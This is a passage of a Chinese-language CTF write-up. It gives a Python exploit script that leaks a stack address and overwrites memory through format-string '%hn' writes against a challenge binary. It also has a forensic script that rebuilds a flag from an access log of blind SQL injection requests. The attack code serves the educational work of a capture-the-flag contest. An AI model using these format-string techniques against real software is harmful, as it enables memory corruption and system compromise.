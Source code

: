 ```python
from pwnfunc import *

io, elf, libc = pwn_initial()
set_context(term="tmux_split", arch="amd64")
"""amd64 i386 arm arm64 riscv64"""

# 13 16 43
ru(b"Input your message: ")
sl(b"%6$p")
ru(b"0x")
stack = int(r(len("7ffd1cf35760")), 16) - 8
success(hex(stack))
sleep(1)
last_four_hex = stack & 0xFFFF
print(hex(last_four_hex)[2:])
num = int(hex(last_four_hex)[2:], 16)
ru(b"Input your message: ")
sl(b"%" + bytes(str(num).encode("utf-8")) + b"c%13$hn")
ru(b"Input your message: ")
sl(b"%" + bytes(str(0x128F).encode("utf-8")) + b"c%43$hn")
ru(b"Input your message: ")
sl(b"su str done!\0a")
ia()
```

## Re

我出的三题都很简单，就不写了xd

## Forensic

### easysqli

附件给了一个 access.log，可以看出来是在sql盲注，写个脚本

```python
import re
from urllib.parse import unquote

def extract_flag_from_log(log_file):
    pattern = r'MID\(.*?,(\d+),1\)\)\s*([!=><]+)\s*(\d+).*\).*Rons'
    position_to_ascii = {}
    with open(log_file, 'r', encoding='utf-8') as f:
        for line in f:
            decoded_line = unquote(line)
            match = re.search(pattern, decoded_line)
            if match:
                position = int(match.group(1))  # 字符位置
                operator = match.group(2)        # 比较运算符
                value = int(match.group(3))   
                if operator == '!=':
                    position_to_ascii[position] = value
    flag = ''
    for pos in sorted(position_to_ascii.keys()):
        ascii_value = position_to_ascii[pos]
        flag += chr(ascii_value)
    return flag

log_file = 'access.log'
flag = extract_flag_from_log(log_file)
print(f"Extracted flag: {flag}")
```
